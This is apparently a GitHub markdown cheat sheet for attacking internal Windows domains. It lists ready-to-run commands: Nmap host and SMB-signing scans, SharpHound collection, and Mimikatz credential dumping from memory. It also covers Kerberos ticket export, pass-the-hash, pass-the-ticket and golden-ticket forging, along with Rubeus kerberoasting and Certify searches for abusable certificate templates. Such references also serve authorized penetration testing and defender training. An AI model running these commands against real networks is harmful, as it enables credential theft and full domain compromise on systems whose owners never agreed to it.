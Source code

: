 # Internal (Windows)

Starting with some NMap Scans/Scripts we can find plenty of other information for more targeted attacks and finding other attack paths/vectors. Then depending if we were given user credentials to perform a "compromised user" approach, we can go down other paths, but either way we would want to check for all of these with and without credentials.

We should verify if the machine is domain joined or not as well.

## NMap

* Find Uphosts:

```
nmap -sn -iL targets.txt -oG - | ForEach-Object { if ($_ -match "Up$") { ($_ -split ' ')[1] } } > up-hosts.txt
```

* Scan and output to file:

```
nmap -p 80 --open -iL targets.txt > 80.txt
```

* SMB Signing Not Required:

```
nmap -p 445 -iL uphosts.txt --script smb2-security-mode.nse > smb-signing-not-required.txt 
```

* SNMP Info

```
nmap -Pn -sV -p 161 --script=snmp-info IP
```

* Puts saved output into a list of IPs:

```
Select-String -Path "input.txt" -Pattern '\b(?:\d{1,3}\.){3}\d{1,3}\b' | ForEach-Object { $_.Matches.Value } > output.txt
```

## Sharphound

Ingest Files for bloodhound

```
Sharphound.exe -u USER -p 'PASSWORD' -d DOMAIN -c All
```

## Mimikatz

### Enable debug privileges

```
privilege::debug
```

### sekurlsa

* Extract credentials from the system's memory

```
sekurlsa::logonpasswords
```

```
sekurlsa::logonPasswords full
```

* Dump and export Kerberos tickets from memory

```
sekurlsa::tickets /export
```

* Pass the hash - PTH

```
sekurlsa::pth /user:USER /domain:DOMAIN /ntlm:HASH /run:cmd
```

### kerberos

* Dump and export Kerberos tickets from memory associated with active user sessions

```
kerberos::list /export
```

* Pass the ticket - PTT

```
kerberos::ptt c:\TICKET
```

* Create a Golden Ticket

```
kerberos::golden /admin:DOMAIN-ADMIN /domain:DOMAIN /sid:USER-SID /krbtgt:KRBTGT /ticket:TICKET
```

### TGT

* Interact with and manipulate Kerberos tickets

```
kerberos
```

### ekeys

* Dump encryption keys from the system's memory

```
sekurlsa::ekeys
```

### DPAPI

* Extract and decrypt credentials protected by DPAPI (Data Protection API) from memory

```
sekurlsa::dpapi
```

## Rubeus

### Verify we can obtain a valid Kerberos ticket

```
.\Rubeus.exe asktgt /user:USER /password:PASSWORD
```

### Dump all Kerberos tickets currently in memory for the logged-in user

```
.\Rubeus.exe dump
```

### Export file tickets to .kirbi file

```
.\Rubeus.exe dump /export
```

### Requests a service ticket (TGS) for a specific service using an existing TGT.

```
.\Rubeus.exe asktgs /ticket:BASE-64-TICKET
```

### Request service tickets for SPNs (Service Principal Names) associated with service accounts

```
.\Rubeus.exe kerberoast
```

```
klist
```

## Certify

### Find all enabled certificate templates

```
.\Certify.exe find
```

### Find vulnerable/abusable certificate templates

```
.\Certify.exe find /vulnerable
```
